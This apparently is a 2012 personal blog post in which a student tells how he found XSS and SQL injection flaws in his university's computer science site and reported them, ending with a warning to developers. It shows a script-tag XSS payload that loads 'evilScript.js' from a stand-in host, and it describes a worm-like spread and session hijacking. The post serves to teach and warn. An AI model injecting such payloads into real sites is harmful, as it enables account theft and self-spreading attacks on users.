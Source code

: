 +++
title = "How I hacked a site"
date = 2012-08-30T00:58:00Z
updated = 2013-08-23T02:40:42Z
tags = ["Programming", "websites", "xss", "Hacking", "sql injection"]
blogimport = true 
[author]
	name = "Ivan du Toit"
	uri = "https://plus.google.com/109733145121386015159"
+++

I did no harm so don't start booing me before you read the whole story, I just went far enough to prove that in fact there was an exploitable security issue -  and I must admit also showed off to one of my friends by greeting him by name once he logged into the site. I also reported the vulnerabilities to the appropriate people.<br /><br /><a name='more'></a><br /><h3>How this came about.</h3><div><br /></div>Exam time is a weird time for students, they start experiencing the taste of the holidays while actually performing under the academic pressure of having to pass.<br /><br />In the middle of my exams I was having problems sleeping due to the stress  of the exams. During one of these periods of stress induced insomnia I decided that I would rather be doing something than just lying in bed. So I grabbed my netbook and started to surf the net, at some stage I ended up on the computer science site to check if there was any news related to my course. So there I was 2:30 AM browsing around the site when I had this crazy idea: Is this site secure? I don't know why I had that thought but there it was and since I wasn't sleeping anyway, so I decided to give the site a test.<br /><br />First I had a crack at the user login form but that was hardened against my primitive attacks, but is this true for the whole site or is there some area that the other students before me have not yet checked? So I tried a few of the other forms on the site for <a href="http://en.wikipedia.org/wiki/SQL_injection">SQL injection</a>&nbsp;vulnerabilities&nbsp;but found none but that is to be expected. But what I did find was a <a href="http://en.wikipedia.org/wiki/Cross-site_scripting">XSS</a> vulnerability in the member details form. I could inject a script tag that was not escaped into my surname.  But you might say that is not a big deal is it? It seems so innocent to add<br /><br /><div><pre nbsp="nbsp" style="background-image: URL(http://2.bp.blogspot.com/_z5ltvMQPaa8/SjJXr_U2YBI/AAAAAAAAAAM/46OqEP32CJ8/s320/codebg.gif); background: #f0f0f0; border: 1px dashed #CCCCCC; color: black; font-family: arial; font-size: 12px; height: auto; line-height: 20px; overflow: auto; padding: 0px; text-align: left; width: 99%;"><code style="color: black; word-wrap: normal;">1: &nbsp;&lt;script&gt;alert("Hello World");&lt;/script&gt; &nbsp;</code></pre></div><div></div><br />to&nbsp;my surname. But I could also change that to<br /><br /><div><div><pre nbsp="nbsp" style="background-image: URL(http://2.bp.blogspot.com/_z5ltvMQPaa8/SjJXr_U2YBI/AAAAAAAAAAM/46OqEP32CJ8/s320/codebg.gif); background: #f0f0f0; border: 1px dashed #CCCCCC; color: black; font-family: arial; font-size: 12px; height: auto; line-height: 20px; overflow: auto; padding: 0px; text-align: left; width: 99%;"><code style="color: black; word-wrap: normal;">1: &nbsp;&lt;script src="example.com/evilScript.js"&gt;&lt;/script&gt; &nbsp;</code></pre></div><div></div></div><br /><br />Which does not look half as cute does it? After some brain storming I thought of ways to infect other users by updating there details in the back ground to include my script in there surname! This infection happens whenever my surname was rendered by the browser! This boys and girls is a worm&nbsp;similar&nbsp;to the<a href="http://en.wikipedia.org/wiki/Samy_(computer_worm)"> myspace worm</a>! So it has gone viral now what?<br /><br /><br />No it can not start the zombie&nbsp;apocalypse&nbsp;(I&nbsp;<strike>think&nbsp;</strike>hope). But it could do all of the following: <br /><ul><li><a href="http://en.wikipedia.org/wiki/Session_hijacking">Session Hijacking</a> </li><li>Steal passwords&nbsp;</li><li>Download other students code for assignments&nbsp;</li><li>Steal other students and lecturer's email address and other hidden personal information.</li><li>Post content as a lecturer or student.</li></ul><div>Pretty scary stuff for suck a innocent vulnerability!</div><div>I also found a SQL injection vulnerability but that to me is not very special because it is very common, yet so easy to prevent that I am just astounded that it exists.<br /><br /><h3>Moral of the story</h3><div><br /></div>So yeah that is how I hacked a site.  I post about the experience both as a warning to other developers and to myself.<br /><br /><ul><li>Innocent looking vulnerabilities can have very grave consequences.</li><li>Your security is only as strong as your weakest point.</li></ul><br /><br />If this post makes just 1 site more secure I will be very happy. So go code but be safe.</div>
